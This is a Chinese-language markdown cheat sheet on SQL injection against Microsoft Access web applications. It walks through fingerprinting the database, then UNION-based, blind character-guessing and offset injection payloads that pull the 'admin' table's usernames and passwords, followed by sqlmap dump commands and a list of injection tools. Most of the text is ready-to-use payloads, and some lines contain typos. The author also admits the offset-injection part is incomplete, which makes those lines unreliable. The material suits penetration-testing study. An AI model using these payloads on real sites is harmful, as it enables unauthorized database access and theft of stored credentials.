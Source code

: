 # ACCESS注入
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x01 判断数据库类型
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;代码查看:
```sql
    sysobjects 是SQL , msysobjects 是ACCESS,前提是允许访问系统表
    and (select count(*) from sysobjects)>0
    and (select count(*) from msysobjects)>0
    
    SQLServer: sysobjects页面正常，msysobject页面不正常
    ACCESS: sysobjects和加msysobjects的SQL语句后，网页显示都不正常
            msysobject后的网页显示正常

```
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x02 联合查询法

```sql
    常规判断注入点，查询列数，Access只有一个库
    判断字段数: order by NUM   //根据页面反应得出字段数
    查表: UNION SELECT num,num+1... from admin
    查数据: UNION SELECT 1,admin,3,password from admin
```
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x03 逐字猜解法

```sql
    表名,列名可以搜索常见Access表列命名即可
    
    查表：and exists (select * from 表名)
    查列：and exists (select 列名 from 表名)
    查数据：1.确定长度 2.确定asc数据(asc编码)
           1.and (select top 1 len(列名) from admin)=5  //=换成<=5也成立，下同
           2.and (select top 1 asc(mid(列名,位数,1)) from admin)=97
```
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x04 偏移注入(能查表，不能查字段)

```sql
    判断字段数: order by NUM   //根据页面反应得出字段数
    爆出显示位: UNION SELECT 1,2,...,NUM from 表名
    查字段:union select1,2,3,4,5,6,7,8,9,10,* from admin 直到页面正常，否则不断用 * 代替减少NUM数
    
    字段数=order by 出的字段数-*号的字段数x2
    偏移注入: union select 1,2,3,4,5,6,7,8,9,10,* from (adminas a inner join admin as b ona.id=b.id)
            1,2,3,4,5,6,7,8,9,10, //上述公式这里理解为剩下的字段数就可以
    (后续百度一下吧，gay主自己也没搞透，不好意思写，误人)
```
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x05 SQLMap注入

```
    查表: sqlmap.py -u "ULR" --tables
    查列: sqlmap.py -u "URL" --columns -T 表名 
    查数据: sqlmap.py -u "URL"  -T 表名 -C 字段名 --dump 
```

###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x06 工具
[靶场实战](https://www.jianshu.com/p/c1ebccc72486?from=timeline)、SQLMap、穿山甲、胡萝卜、啊D、明小子等，有时候一个注入工具不行，几个一起上还是很阔以的











